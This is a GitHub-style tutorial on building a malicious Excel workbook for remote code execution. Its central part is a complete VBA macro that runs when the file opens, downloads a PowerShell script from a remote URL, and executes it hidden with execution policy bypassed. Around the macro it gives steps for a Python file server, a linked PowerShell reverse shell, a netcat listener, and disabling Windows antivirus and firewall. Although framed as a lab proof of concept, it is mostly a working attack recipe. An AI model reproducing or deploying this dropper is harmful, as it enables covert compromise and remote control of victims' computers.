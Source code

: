 # Microsoft Excel Remote Code Execution

## Introduction 

- Microsoft Excel is one of the most widely used spreadsheet programs in the world. While it has many useful features, one that can potentially be misused by hackers is the macro functionality.

- Macros allow you to automate repetitive tasks in Excel by creating small programs or scripts.

- These macros can also be exploited by attackers to run malicious code on your computer remotely without your knowledge. This is known as a remote code execution (RCE) attack.

- Essentially, the attacker can create a specially crafted macro embedded in an Excel file that, when opened, secretly runs their payload on your system.

- While Microsoft has made efforts to improve macro security in Excel over the years, cybercriminals continually find new ingenious ways to bypass these protections. This report will explain in detail how these RCE attacks work through malicious Excel macros.

## Macros

- Macros can be considered as a set of programming instructions that can be recorded, named, saved, and executed in VBA as and when required macros can help us to automate repetitive tasks associated with data manipulation that must be accomplished repeatedly. 
- Note : you can also **enable** and disable macros in Excel.

Some ways with which attackers can leverage malicious macros in Excel are:

Ø **Social Engineering Attacks**: One of the most common methods is through social engineering tactics. Attackers craft a seemingly innocent Excel file containing malicious macros and trick the victim into enabling and running the macros.

Ø **Malicious Add-Ins** : Excel allows installing third-party add-ins which can contain VBA code. Attackers distribute malicious add-ins that install backdoors or malicious macros when loaded.

Ø **PowerShell Integration** in Macros can launch PowerShell scripts on the victim's machine. 
This allows attackers to run PowerShell commands and access system resources

## Recreating the POC

### Prerequisites :-

- Download and install **Microsoft Office 2016 and 2019** on your VM.
- Open Excel go to :
	**File => More => Options => Trust Center => Trust Center Settings => Enable Macros**
	
![alt text](Assets/trust.jpg)

- Windows VM and Kali Linux VM 

### Flowchart

![alt text](Assets/flow.jpg)

### Set up Python Server

We have Used Kali Linux to setup our Python Server
This Python Server is a pathway to Pipe our Exploit to Victim's Machine

```sh
python3 -m http.server <port>
```

This will act as our **Backdoor Connection** to our Victim's Device 

![alt text](Assets/server.jpg)

#### Powershell Script 

This is our Powershell Script:

LINK :- [Github](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1)

- Save this Powershell script in a `.ps` file 
- Save it in such a folder where it can be accessed via the created python server
- Copy its path you will need it to input in our Vbscript

### Macros Vbscript

This is our Exploit which we have written in our **Macros Vbscript**

```vbscript
Private Sub Workbook_Open()
    ExecuteRemotePowerShellScript
End Sub

Private Sub ExecuteRemotePowerShellScript()
    Dim scriptUrl As String
    Dim scriptFilePath As String
    Dim tempFolder As String
    Dim objShell As Object
    
    ' URL of the PowerShell script
    scriptUrl = "http://example.com/path/to/script.ps1"
    
    ' Local path where you want to save the downloaded script
    tempFolder = Environ("TEMP")
    scriptFilePath = tempFolder & "\script.ps1"
    
    ' Download the PowerShell script from the URL
    If DownloadFile(scriptUrl, scriptFilePath) Then
        ' Check if the script file exists
        If Dir(scriptFilePath) <> "" Then
            ' Execute the PowerShell script in the background
            Set objShell = CreateObject("WScript.Shell")
            objShell.Run "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File """ & scriptFilePath & """", 0, True ' Wait until the script completes
            Set objShell = Nothing
        Else
            MsgBox "Script file not found after download: " & scriptFilePath
        End If
    Else
        MsgBox "Failed to download the script file from URL: " & scriptUrl
    End If
End Sub

Private Function DownloadFile(fileUrl As String, filePath As String) As Boolean
    Dim xmlHttp As Object
    Set xmlHttp = CreateObject("MSXML2.XMLHTTP")
    
    xmlHttp.Open "GET", fileUrl, False
    xmlHttp.Send
    
    If xmlHttp.Status = 200 Then
        Dim adoStream As Object
        Set adoStream = CreateObject("ADODB.Stream")
        
        adoStream.Open
        adoStream.Type = 1 ' Binary
        
        adoStream.Write xmlHttp.responseBody
        adoStream.Position = 0 ' Reset the stream position
        
        If Dir(filePath) <> "" Then
            Kill filePath ' Delete existing file
        End If
        
        adoStream.SaveToFile filePath, 2 ' Overwrite mode
        adoStream.Close
        Set adoStream = Nothing
        
        DownloadFile = True
    Else
        DownloadFile = False
    End If
    
    Set xmlHttp = Nothing
End Function
```
###  Workflow of our Vbscript Exploit :-

-  On execution it downloads the Powershell backdoor exploit from the remote server.
-  Then it saves the downloaded file in a temporary folder `.ps` file in `TEMP` folder 
-  Which is then Executed in the background
-  This exploit will run whenever you try to open your `.xlsm` / Excel file and will run even after   the Excel file is closed in the background 
-  Until its Task is Ended in Task Manager or Victim Computer is Turned Off

### Creating a Malicious Excel File

Download the sample excel .vba file from : [Github](https://github.com/pruthuraut/Excel-RCE-with-Macros)

Paste the code in Virtual Basic Application by pressing ( **Alt + F11** )

![alt text](Assets/vb.jpg)

Only these two lines of code needs to be Edited , rest should be the same 

```sh
 scriptUrl = " < path to your powershell script > "
``` 

```sh
 scriptFilePath = tempFolder & "\ < name of your powershell script > "
```

Now save the Excel File and Exit

### Set up a Listener : Netcat

On Another Terminal setup a Netcat Listener with this command below :-

```sh
nc -lvnp < Port defined as in your powershell script >
```

### Execution

Check The Following before Opening you File or it may get Flagged :

Turn off all Protections : **Virus and Threat protection** 

**Windows Security < Virus and Threat Protection < Manage settings < Turn off everything**

![alt text](Assets/virus.jpg)

Turn off all options in  : **Firewall and Network Protection** :

 **Windows Security < Firewall and Network Protection < Turn off everything**

Now try open your `.xlsm` Excel File , check your netcat listener 

![alt text](Assets/reverse.jpg)

We got a **Reverse Shell** of Victim Device : `SHELL>`

